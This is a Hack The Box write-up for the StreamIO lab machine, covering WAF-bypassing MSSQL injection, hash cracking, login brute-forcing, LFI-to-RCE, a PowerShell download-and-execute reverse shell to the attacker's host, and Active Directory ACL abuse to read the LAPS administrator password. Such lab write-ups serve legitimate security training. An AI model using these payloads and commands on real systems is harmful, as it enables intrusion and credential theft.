---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# StreamIO

## Summary

[StreamIO](https://app.hackthebox.com/machines/streamio) is a <mark style="color:yellow;">medium-rated</mark> machine, although personally, I find it leaning towards the challenging end. Establishing initial access felt like tackling a behemoth, involving extensive **web server fuzzing**, circumventing a **WAF-protected** [**SQLi**](#user-content-fn-1)[^1], executing a [**BFA**](#user-content-fn-2)[^2] against an HTTPS login form, and exploiting an [**LFI**](#user-content-fn-3)[^3] vulnerability.  However, the privilege escalation phase was comparatively more straightforward, revolving around typical **system and domain enumeration** procedures.

<table><thead><tr><th width="84" align="right">Step</th><th width="211">Action</th><th width="225">Tool</th><th>Gained</th></tr></thead><tbody><tr><td align="right">1</td><td>Web server enumeration</td><td><a href="../../../tools/tools/web/dirbusting/fuff.md">ffuf</a></td><td>Directories</td></tr><tr><td align="right">2</td><td><a data-footnote-ref href="#user-content-fn-4">SQLi</a></td><td><a href="https://portswigger.net/burp/communitydownload">Burp Suite</a></td><td>Credentials</td></tr><tr><td align="right">3</td><td><a data-footnote-ref href="#user-content-fn-5">BFA</a></td><td><a href="../../../tools/tools/web/hydra.md">hydra</a></td><td>Valid credentials</td></tr><tr><td align="right">4</td><td><a data-footnote-ref href="#user-content-fn-6">LFI</a></td><td><a href="../../../tools/tools/web/dirbusting/fuff.md">ffuf</a>, <a href="https://portswigger.net/burp/communitydownload">Burp Suite</a></td><td>Foothold</td></tr><tr><td align="right">5</td><td>Domain enumeration</td><td><a href="https://x7331.gitbook.io/boxes/tools/tools/active-directory/bloodhound">BloodHound</a></td><td><a data-footnote-ref href="#user-content-fn-7">EoP</a> path</td></tr><tr><td align="right">6</td><td>Database enumeration</td><td><a href="https://learn.microsoft.com/en-us/sql/tools/sqlcmd/sqlcmd-use-utility?view=sql-server-ver16">sqlcmd</a></td><td>Lateral movement</td></tr><tr><td align="right">7</td><td>System enumeration</td><td><a href="https://github.com/AlessandroZ/LaZagne">LaZagne</a></td><td>Privilege escalation</td></tr><tr><td align="right">8</td><td>Permissions exploitation</td><td><a href="../../../tools/tools/active-directory/powerview.md">PowerView</a>, <a href="../../../tools/tools/active-directory/netexec-cme.md">NetExec</a></td><td>Domain compromise</td></tr></tbody></table>

## Recon

### Port Scan

Let's start with a [port scan](../../../tools/tools/port-scanners/nmap.md#nmap-flow) (Figure 1).

```bash
nmap-scan.sh 10.10.10.248
Creating directory...
Performing initial scan...
Extracting ports...
Performing an aggresive scan on open ports...
All done! See results: less scans/aggressive_scan.nmap
```

<figure><figcaption><p>Figure 1: Ports listening on the StreamIO machine.</p></figcaption></figure>

* Based on the <mark style="color:yellow;">yellow-highlighted ports</mark>, as well as the host name (`DC`), we are dealing with a DC[^8].
* We have HTTP (`80`) and HTTPS (`443`) hosting an IIS web server. The latter also gives us an interesting DNS name: `watch.streamIO.htb`.
* WinRM (`5985`) is available to access the box in case we obtain credentials.
* The FQDN[^9] of the machine is `DC.STREAMIO.HTB`.

Before jumping on the web server, let's add the hostname (`dc`), the domain (`streamio.htb`), the FQDN (`dc.streamio.htb`), and the alternate name (`watch.streamIO.htb`) to our local DNS file.

```bash
grep stream /etc/hosts
10.10.11.158    dc dc.streamio.htb streamio.htb watch.streamio.htb
```

### Failed Ports

Attempting to enumerate SMB, RCP and LDAP without credentials does not yield anything (Figure 2). In addition, DNS also returns nothing as well (Figure 3).


```bash
# attempting to enumerate SMB via NULL session
nxc smb 10.10.11.158 -u '' -p '' --shares
# attempting to enumerate SMB via guest session
nxc smb 10.10.11.158 -u 'guest' -p '' --shares
# attempting to enumerate SMB via anonymous session
nxc smb 10.10.11.158 -u 'x7331' -p '' --shares
# attempting to enumrating RPC via NULL session
rpcclient -U '' -N 10.10.11.158
# attempting to enumerating LDAP via NULL bind
ldapsearch -x -H ldap://streamio.htb -s sub -b 'DC=streamIO,DC=htb'
# enumerating DNS
dnsenum --dnsserver 10.10.11.158 -f /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt streamio.htb
```


<figure><figcaption><p>Figure 2: Failed enumeration attempts on SMB, RPC, and LDAP.</p></figcaption></figure>

<figure><figcaption><p>Figure 3: Enumerating the DNS server.</p></figcaption></figure>

### IIS Enumeration

Checking for the technologies used we can see that PHP and ASP.NET are used. We can add those extensions to our fuzzing commands on the next step.


```bash
# checking technologies used on the domain
whatweb https://streamio.htb
https://streamio.htb [200 OK] Bootstrap, Cookies[PHPSESSID], Country[RESERVED][ZZ], Email[oliver@Streamio.htb], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.10.11.158], JQuery[3.4.1], Microsoft-IIS[10.0], PHP[7.2.26,], Script, Title[Streamio], X-Powered-By[PHP/7.2.26, ASP.NET], X-UA-Compatible[IE=edge]
# checking technologies used on the subdomain
whatweb https://watch.streamio.htb
https://watch.streamio.htb [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.10.11.158], Microsoft-IIS[10.0], PHP[7.2.26,], Script, Title[Streamio], X-Powered-By[PHP/7.2.26, ASP.NET]
```


Browsing at `https://streamio.htb` there are 2 potential things of interest: some names and a working contact form (Figure 4).

<figure><figcaption><p>Figure 4: The <code>https://streamio.htb</code> site.</p></figcaption></figure>

Scanning port `80` for directories, subdomains, and vhosts does not gives us much. However, doing the same for `443` returns many interesting directories, both for `streamio.htb` (Figure 5) and `watch.streamio.htb` (Figure 6).


```bash
# scanning the domain
ffuf -u https://streamio.htb/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -c -ac -ic -e .php,.aspx
# scanning the subdomain
ffuf -u https://watch.streamio.htb/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -c -ac -ic -e .php
```


<figure><figcaption><p>Figure 5: Dirbusting the domain.</p></figcaption></figure>

<figure><figcaption><p>Figure 6: Dirbusting the subdomain.</p></figcaption></figure>

## Foothold

### SQL Injection

Looking at `watch.streamio.htb/search.php` we find something intriguing: a search bar. Using a random string, such as "_anger_" returns all movies that contain that string, which suggests that the back-end query makes use of SQL wildcards, such as `%` or `_` (Figure 7).

<figure><figcaption><p>Figure 7: Searching for movies containing the string "<em>anger</em>".</p></figcaption></figure>

Playing around with common SQLi[^10] payloads has an unusual result: it redirects us to `/blocked.php` (Figure 8) which seems to be some kind of a WAF[^11] simulation (Figure 9).&#x20;

<figure><figcaption><p>Figure 8: Checking for SQLi with common payloads redirect us to <code>/blocked.php</code>.</p></figcaption></figure>

<figure><figcaption><p>Figure 9: The <code>/blocked.php</code> directory.</p></figcaption></figure>

We can use `fuff` to [fuzz for special characters](../../../tl-dr/tl-dr/web/sqli.md#banned-characters) and see what is and what is not allowed. The `%` and `_` characters return all movies which confirms our suspicion for the use of [SQL wildcards](https://www.w3schools.com/sql/sql\_wildcards.asp) in the back-end query. The `&` also does the same, which makes sense since `ffuf` does not URL-encode it, so it is interpreted as `q=&`, which is the same as sending a blank request (Figure 9).


```bash
ffuf -k -u https://watch.streamio.htb/search.php -d 'q=FUZZ' -w /usr/share/seclists/Fuzzing/special-chars.txt -c -ic -ac -H 'Content-Type: application/x-www-form-urlencoded'
```


<figure><figcaption><p>Figure 9: Fuzzing the URL for special characters.</p></figcaption></figure>

Since this is an IIS web server, we can make the [educated guess](../../../tl-dr/tl-dr/web/sqli.md#assumptions) that we are dealing with an MSSQL database, thus, we can infer that the query must be something like this:

```sql
SELECT * FROM movies WHERE name LIKE '%anger%';
# or
SELECT * FROM movies WHERE CONTAINS (name,'*anger*');
```

Since the `*` is a banned character and we know that it treats the `%` and `_` as wildcards, we can safely pick the first version. We can test our hypotheses by trying to break the query. By injecting the `anger'-- -` payload we get back just one result; the only movie that ends with `anger` (Figure 10).&#x20;

```sql
q=anger'-- -
```

<figure><figcaption><p>Figure 10: Removing the second wildcard.</p></figcaption></figure>

By injecting a wildcard at the end of the payload, we get many more results back, more specifically, the same number as passing just `anger` on the search bar (Figure 11).

```sql
q=anger%'-- -
```

<figure><figcaption><p>Figure 11: Adding back the second wildcard manually.</p></figcaption></figure>

Typically, the first step in a SQLi attack is [enumerating the number of columns](../../../tl-dr/tl-dr/web/sqli.md#number-of-columns). This is done with either by using the `ORDER BY` or the `UNION SELECT NULL` clause, and both seemed to be blocked here (Figure 12).

```sql
q=anger' ORDER BY 1;-- -
q=anger' UNION SELECT NULL;-- -
```

<figure><figcaption><p>Figure 12: Common SQLi payloads are blocked by the WAF.</p></figcaption></figure>

If we replace `NULL` with `1` the payload seems to be accepted, so we will go with that. Using it with a payload that returns movies back, such as `anger'`, does not seem to work, so we will try with something that we know that returns nothing back, like `anger1'`. By incrementing the number of columns, we get a match at `6` (Figure 13).

```sql
q=anger1' UNION SELECT 1-- -
q=anger1' UNION SELECT 1,2,3,4,5,6;-- -
```

<figure><figcaption><p>Figure 13: Enumerating the number of columns returned by the query.</p></figcaption></figure>

The next step in the process is to figure out which column accepts strings. We can test that by passing a string on each column and see which returns it back (Figure 14).

```sql
q=anger1' UNION SELECT 'a',2,3,4,5,6;-- -
q=anger1' UNION SELECT 1,'a',3,4,5,6;-- -
```

<figure><figcaption><p>Figure 14: Enumerating character fields.</p></figcaption></figure>

Now, we need to get some database information back. There is a handy [cheatsheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet) that can help us with that. We will start by enumerating the DBMS[^12]'s version (Figure 15).

```sql
/* enumerate DBMS version */
q=anger1' UNION SELECT 1,@@version,3,4,5,6;--
```

<figure><figcaption><p>Figure 15: Enumerating the version of the DBMS.</p></figcaption></figure>

This confirms our assumption, i.e., that we are dealing a MSSQL DBMS. We can continue by listing all DBMS's databases (Figure 16).

```sql
/* enumerate DBMS's databases */
q=anger1' UNION SELECT 1,name,3,4,5,6 FROM master..sysdatabases--
```

<figure><figcaption><p>Figure 16: Listing the databases of the DBMS. </p></figcaption></figure>

There are only 2 non-default databases: `streamio` and `streamio_backup`. Let's see what tables are contained within the former (Figure 17).

```sql
/* enumerate database's tables */
q=anger1' UNION SELECT 1,CONCAT(name,':',id),3,4,5,6 FROM streamio..sysobjects--
```

<figure><figcaption><p>Figure 17: Enumerating all table names and IDs from the <code>streamio</code> database.</p></figcaption></figure>

From the tables listed, `users` seems the most interesting one. We will use its id (`901578250`) to list all of its columns (Figure 18).

```sql
/* enumerate table's columns */
q=anger1' UNION SELECT 1,name,3,4,5,6 FROM streamio..syscolumns WHERE id=901578250--
```

<figure><figcaption><p>Figure 18: Listing all columns of the <code>users</code> table.</p></figcaption></figure>

There are only 4 columns within `users`; `username` and `password` seem the most logical to exfiltrate the data from (Figure 19).


```sql
/* exfiltrate data */
q=anger1' UNION SELECT 1,(SELECT STRING_AGG(CONCAT(username,':',password),'|') FROM users),3,4,5,6--
```


<figure><figcaption><p>Figure 19: Exfiltrating the <code>username</code> and <code>password</code> fields.</p></figcaption></figure>

### Brute-Forcing

When we copy and paste the data from Burp into a file, we will need to tidy them up in order to be in proper format (`user:hash`). Hashcat manages to crack 12 out of the total 25 hashes.&#x20;

```bash
# tidying up the data
cat db_users | tr '|' '\n' | tr -d ' ' > user_hashes
# cracking MD5 hashes
hashcat -m0 user_hashes /usr/share/wordlists/rockyou --username
<SNIP>
# listing the cracked hashes
hashcat -m0 user_hashes --username --show
Lauren:08344b85b329d7efd611b7a7743e8a09:##123a8j8w5123##
Sabrina:f87d3c0d6c8fd686aacc6627f1f493a5:!!sabrina$
Thane:3577c47eb1e12c8ba021611e1280753c:highschoolmusical
Barry:54c88b2dbd7b1a84012fabc1a4c73415:$hadoW
Michelle:b83439b16f844bd6ffe35c02fe21b3c0:!?Love?!123
Victoria:b22abb47a02b52d5dfa27fb0b534f693:!5psycho8!
Clara:ef8f3d30a856cf166fb8215aca93e9ff:%$clara
Lenord:ee0b8a0937abd60c2882eacb2f8dc49f:physics69i
Juliette:6dcd87740abb64edfa36d170f0d5450d:$3xybitch
Bruno:2a4e2cf22dd8fcb45adcb91be1e22ae8:$monique$1991$
yoshihide:b779ba15cedfd22a023c4d8bcf5f2332:66boysandgirls..
admin:665a50ac9eaa781e4f7f04199db97a11:paddpadd
```

Next, we can split the users and the passwords into 2 files and check if any of these is valid. Testing them against the SMB server, none of them work.


```bash
# writing the cracked hashes into a file
hashcat -m0 user_hashes --username --show > cracked_hashes
# splitting users and passwords
cat cracked_hashes | awk -F':' '{print $1}' > users
cat cracked_hashes | awk -F':' '{print $2}' > passwords
# password-spraying SMB
nxc smb 10.10.11.158 -u users -p passwords --continue-on-success
```


Our next option is to check them against the `https://streamio.htb/login.php` form we found earlier. Burp's Intruder is slow on the free edition, so we will use `hydra` to brute-force the login form. First, we need to gather some information:

1. The HTTP method -> we know it is a `POST` request (Figure 20.1).
2. The requests parameters -> `username`, `password` (Figure 20.2).
3. Something that exists on the page only after a failed login -> `<div class="alert alert-danger">` (Figure 20.3).

<figure><figcaption><p>Figure 20: Gathering the required information for <code>hydra</code>.</p></figcaption></figure>

Passing the information to `hydra` reveals a valid pair of credentials (`yoshihide:66boysandgirls..`) (Figure 21).


```bash
# brute forcing the login form
hydra -L users -P passwords streamio.htb https-post-form '/login.php:username=^USER^&password=^PASS^:F=<div class="alert alert-danger">' -I
```


<figure><figcaption><p>Figure 21: Obtaining valid login credentials with <code>hydra</code>.</p></figcaption></figure>

### Local File Inclusion

Logging into `streamio.htb` and visiting the `/admin` directory, we see 4 different tabs and each of the first 3 has each own `GET` parameter:

1. `User management` -> `user`
2. `Staff management` -> `staff`&#x20;
3. `Movie management` -> `movie`

A logical next step would be to fuzz the `/admin` endpoint to see if it has more "hidden" parameters. We can use [`ffuf`](../../../tools/tools/web/dirbusting/fuff.md) to do that, making sure to include our `Cookie` header since we are now authorized. This reveals an extra parameter: `debug` (Figure 22).


```bash
ffuf -u https://streamio.htb/admin/?FUZZ=* -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -ic -c -ac -k -H 'Cookie: PHPSESSID=l5l8ad3k06f2h9493eqgtn9ppb'
```


<figure><figcaption><p>Figure 22: Fuzzing for parameters with <code>ffuf</code>.</p></figcaption></figure>

Sending a request to `/admin/?debug=` returns an interesting message (Figure 23).&#x20;

<figure><figcaption><p>Figure 23: Sending a request with the <code>debug</code> parameter set.</p></figcaption></figure>

Next, we need to fuzz for potential parameter values and check for LFI[^13] flaws. Doing that, we can see that this parameter is indeed vulnerable to [LFI](../../../tl-dr/tl-dr/web/file-inclusion/file-disclosure.md)[ ](../../../tl-dr/tl-dr/web/file-inclusion/)(Figure 24).&#x20;


```bash
ffuf -u https://streamio.htb/admin/?debug=FUZZ -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt -ic -c -ac -k -H 'Cookie: PHPSESSID=l5l8ad3k06f2h9493eqgtn9ppb'
```


<figure><figcaption><p>Figure 24: Fuzzing for LFI flaws.</p></figcaption></figure>

One common abuse of an LFI flaw is [reading the source code](../../../tl-dr/tl-dr/web/file-inclusion/file-disclosure.md#php-filters). When we try to read the source code of `index.php` we get back an `ERROR` message (Figure 25). We can try using PHP filters to base64-encrypt the code and then read it (Figure 26).

```html
/admin/?debug=php://filter/read=convert.base64-encode/resource=index.php
```

<figure><figcaption><p>Figure 25: Trying to read the source code of <code>index.php</code> file.</p></figcaption></figure>

<figure><figcaption><p>Figure 26: Using PHP filters to exflitrate the page's source code.</p></figcaption></figure>

We can copy and paste the base64 string into a file, decode it, and examine if anything interesting lies in the source code. Unfortunately, other that the database's credentials, which we have already compromise, not much else is there. Password-spraying our `users` list with `db_admin`'s password does not result in any hit back.


```bash
# pasting the string into a file
nano index.php.enc
# decoding the file and write its output to another file
cat index.php.enc | base64 -d > index.php
# inspecting the file
most index.php
<SNIP>
$connection = array("Database"=>"STREAMIO", "UID" => "db_admin", "PWD" => 'B1@hx31234567890');
<SNIP>
```


Fuzzing the `/admin` directory to check if it contains any other files other than the `index.php` which we could then exfiltrate and read, reveals the `master.php` file (Figure 27).


```bash
ffuf -u https://streamio.htb/admin/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -c -ac -ic -e .php
```


<figure><figcaption><p>Figure 27: Fuzzing the <code>/admin</code> directory reveals the <code>master.php</code> file.</p></figcaption></figure>

After exfiltrating the file using the same process as before, we find a few very interesting lines of code at the very end of it (Figure 28). This part of the code is essentially setting an `include` parameter in the `POST` request which executes any other file than `index.php`.

```html
# exfiltrating the master.php file via LFI
/admin/?debug=php://filter/read=convert.base64-encode/resource=master.php
```

```bash
# pasting the string into a file
nano master.php.enc
# decoding the file and write its output to another file
cat master.php.enc | base64 -d > master.php
# inspecting the file
most master.php
```

<figure><figcaption><p>Figure 28: Reading the <code>master.php</code> file.</p></figcaption></figure>

The `master.php` file can only be accessed through an `include` function (Figure 29), and when we do that, it seems that we can achieve RCE[^14] (Figure 30).

<figure><figcaption><p>Figure 29: Calling the <code>master.php</code> file directly.</p></figcaption></figure>

<figure><figcaption><p>Figure 30: Achieving RCE through the LFI vulnerability.</p></figcaption></figure>

We are now ready to get our foothold using the [ConPtyShell](https://github.com/antonioCoco/ConPtyShell). In order for this to work, we need to:

1. Create a file (`revshell.ps1`) and copy-paste [`ConPtyShell.ps1`](https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1)'s code into it.
2. Create a file (`test.php`) by slightly modifying the [Client Side code (Method 1)](https://github.com/antonioCoco/ConPtyShell?tab=readme-ov-file#client-side) provided on the repo:
   * We need to invoke Powershell via PHP so it can execute `revshell.ps1`, as the web application only executes PHP files.
   * The target does not have internet connectivity, so it will have to download the PowerShell script from our server.
3. Open a listener on our attack host using the [Server Side code (Method 1)](https://github.com/antonioCoco/ConPtyShell?tab=readme-ov-file#server-side).

All we have to do now is send the `POST` request pointing to the `test.php` file on our web server. The `test.php` script will be then evaluated and this will result in downloading `revshell.ps1` and subsequently executing it which in turn will give us a reverse shell connection back to our listener.


```powershell
# The content of the test.php file
system("powershell IEX(IWR http://10.10.14.121/revshell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.14.121 1337");
# Setting up the listener
stty raw -echo; (stty size; cat) | nc -lvnp 1337
```


<figure><figcaption><p>Figure 31: Catching the reverse shell.</p></figcaption></figure>

## Lateral Movement

### Domain Enumeration

Since we got our foothold, we will use `SharpHound` to collect domain information which will then analyze with BloodHound. First, we will start an HTTP server on our attack host, transfer `SharpHound` to the target, and use it to collect domain data.

```bash
# Starting a Python HTTP server on the attack host
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```powershell
# Donwloading the executable to the target
wget http://10.10.14.13/SharpHound.exe -o sh.exe
# Collecting domain information
.\sh.exe -c all
<SNIP>
```

Next, we will upload the resulting `zip` file from the target back to our attack host via an FTP server.

```bash
# Starting an FTP server on the attack host
sudo python3 -m pyftpdlib --port 21 --write
/usr/local/lib/python3.11/dist-packages/pyftpdlib/authorizers.py:108: RuntimeWarning: write permissions assigned to anonymous user.
  self._check_permissions(username, perm)
[I 2024-04-23 19:21:42] concurrency model: async
[I 2024-04-23 19:21:42] masquerade (NAT) address: None
[I 2024-04-23 19:21:42] passive ports: None
[I 2024-04-23 19:21:42] >>> starting FTP server on 0.0.0.0:21, pid=4334 <<<
```


```powershell
# Uploading the zip file to the FTP server
(New-Object Net.WebClient).UploadFile('ftp://10.10.14.13/bh.zip', 'C:\Windows\Temp\20240423181935_BloodHound.zip')
```


After analyzing the data, it seems that our current account (`yoshihide`) does not have any obvious privilege escalation paths. However, we find out about the `jdgodd` account which seems an ideal target to compromise. It has `WriteOwner` rights over `core staff` which in turn has [`ReadLAPSPassword`](../../../tl-dr/tl-dr/active-directory/permissions/readlapspassword.md) permission (Figure 32). So, we will keep that in mind!

<figure><figcaption><p>Figure 32: Analyzing domain data with BloodHound.</p></figcaption></figure>

We don't have many avenues to explore, so our first thought is enumerating the system by transferring and running [winPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS) on the target, but, sadly, nothing that we can act as of now pops up.

### Database Enumeration

A bit ealier, we got the database admin's credentials from the `index.php` file (`db_admin:B1@hx31234567890`), but we haven't use them yet. In addition, we have only dumped the data from the `streamio` database, but there was also a `streamio_backup` one. So let's use `db_admin` to enumerate the latter. Since we now have a foothold, we can use the native [`sqlcmd`](https://learn.microsoft.com/en-us/sql/tools/sqlcmd/sqlcmd-use-utility?view=sql-server-ver16) utility for that.


```powershell
# dumping the data from streamio_backup.users
sqlcmd -U db_admin -P 'B1@hx31234567890' -Q 'USE STREAMIO_BACKUP;SELECT username,password FROM users;'
```


<figure><figcaption><p>Figure 33: Dumping credentials from the <code>streamio_backup.users</code> table.</p></figcaption></figure>

Tidying up the credentials format and passing them to `hashcat` we get back `nikk37`'s password. We know from before (Figure 32), that this user has the `CanPSRemote` permission, so let's confirm that and grab the `user.txt` flag 🚩 (Figure 34).


```bash
# Tidying up the format for hashcat
cat backup_users | awk '{print $1":"$2}' > bk_users
# Cracking hashes
hashcat -m0 bk_users /usr/share/wordlists/rockyou --username
# Showing results
hashcat -m0 bk_users /usr/share/wordlists/rockyou --username --show
# Writing nikk37's password to a file
echo 'get_dem_girls2@yahoo.com' > nikk37_pass
# Confirming WinRM access
nxc winrm 10.10.11.158 -u nikk37 -p nikk37_pass
# Reading the user flag
nxc winrm 10.10.11.158 -u nikk37 -p nikk37_pass -x 'gc c:\users\nikk37\desktop\user.txt'
```


<figure><figcaption><p>Figure 34: Cracking <code>nikk37</code>'s password and reading the <code>user.txt</code> flag.</p></figcaption></figure>

## Privilege Escalation

### System Enumeration

Using `nikk37`'s account to enumerate the SMB server, does not produce anything interesting; only the default shares are there. We have already enumerated the whole DMBS as well as ran winPEAS on the target. One thing that the latter came back with was some Firebox credentials which we could not access before, but we do now (Figure 35).

<figure><figcaption><p>Figure 35: winPEAS highlighting Firefox credentials for <code>nikk37</code>.</p></figcaption></figure>

Jumping into the box, uploading and running the suggested tool ([`SharpWeb`](https://github.com/djhohnstein/SharpWeb)) does not work, since it does not seem to be maintained. Luckily, we can use [LaZagne](https://github.com/AlessandroZ/LaZagne) for the same purpose which comes back with more that one pair of credentials (Figure 36).

```bash
# Connecting to the machine via WinRM
evil-winrm -i 10.10.11.158 -u nikk37 -p $(cat nikk37_pass)
# Uploading executable to the target
upload LaZagne.exe 
# Searching browser credentials with LaZagne
.\LaZagne.exe browsers
```

<figure><figcaption><p>Figure 36: Enumerating browser credentials with <code>lazagne.exe</code>.</p></figcaption></figure>

### Password Spraying

After extracting the usernames and password from Lazagne's output and password-spraying the newly obtained credentials we got a hit back for `jdgodd`.


```bash
# Extracting usernames and password from lazagne's output
cat browser_creds | grep "Login" | awk '{print $2}' > browser_users
cat browser_creds | grep "Password" | grep -v "found" | awk '{print $2}' > browser_pass
# Password-spraying
nxc smb 10.10.11.158 -u browser_users -p browser_pass --continue-on-success | grep +
SMB         10.10.11.158    445    DC               [+] streamIO.htb\JDgodd:********
```


### Leveraging Permissions

This was the user that BloodHound revealed a potential privilege escalation path from, which we can now plan in more detail (Figure 37). **LAPS** is a [Windows feature](https://learn.microsoft.com/en-us/windows-server/identity/laps/laps-overview) that automatically manages and backs up the password of a local administrator account and/or [DCs ](#user-content-fn-15)[^15]on Windows Server AD environments. So, essentially, what we have here, is a way to read the `administrator` password:

1. The `jdgodd` account `owns` the `Core Staff` group, which allows the former to assign `GenericAll` permissions to itself over the latter.
2. Having `GenericAll` permissions over the group allows `jdgodd` to add itself as a member of that group.
3. Being member of `Core Staff` the `ReadLAPSPassword` is inherited to `jdgodd` and it can read the LAPS password.&#x20;

<figure><figcaption><p>Figure 37: The privilege escalation path revealed by BloodHound.</p></figcaption></figure>

The `jdgodd` account does not have `CanPSRemote` permissions, so it cannot directly access the machine. However, we can use its credentials within our current session as `nikk37` to perform the first 2 steps of our plan using [PowerView](../../../tools/tools/active-directory/powerview.md).


```powershell
# Uploading & importing PowerView
upload PowerView.ps1
Import-Module .\PowerView.ps1
# Creating a SecureString Object for jdgodd
$SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('streamio.htb\jdgodd', $SecPassword)
# Granting the GenericAll permission over Core Staff
Add-DomainObjectAcl -Credential $Cred -TargetIdentity 'Core Staff' -PrincipalIdentity jdgodd -Rights All
# Adding jdgodd to the Core Staff group
Add-DomainGroupMember -Identity 'Core Staff' -Members 'jdgodd' -Credential $Cred -Verbose 
# Confirming the user was added to the group
net group 'Core Staff'
```


Now that the `jdgodd` account is a member of the `Core Staff` group, we can use [NetExec](../../../tools/tools/active-directory/netexec-cme.md) to read the LAPS password and then get the `root.txt` flag 🚩 (Figure 38).


```bash
# Reading the LAPS password
nxc ldap 10.10.11.158 -u jdgodd -p jdgodd_pass -M laps
# writing the LAPS password to a file
echo ').9)2IKYoaCG[G' > dc_pass
# Attempting to read the root flag
nxc smb 10.10.11.158 -u administrator -p dc_pass -x 'type c:\users\administrator\desktop\root.txt'
# Checking what other users are on the box
nxc smb 10.10.11.158 -u administrator -p dc_pass -x 'dir c:\users\'
# Reading the root flag from Martin's directory
nxc smb 10.10.11.158 -u administrator -p dc_pass -x 'type c:\users\Martin\desktop\root.txt'
```


<figure><figcaption><p>Figure 38: Reading the LAPS password and snatching the root flag.</p></figcaption></figure>

[^1]: SQL Injection

[^2]: Brute Force Attack

[^3]: Local File Inclusion

[^4]: Structured Query Language Injection

[^5]: Brute Force Attack

[^6]: Local File Inclusion

[^7]: Elevation of Privileges

[^8]: Domain Controller

[^9]: Fully Qualified Domain Name

[^10]: Structured Query Language injection

[^11]: Web Application Firewall

[^12]: Database Management System

[^13]: Local File Inclusion

[^14]: Remote Code Execution

[^15]: Domain Controllers
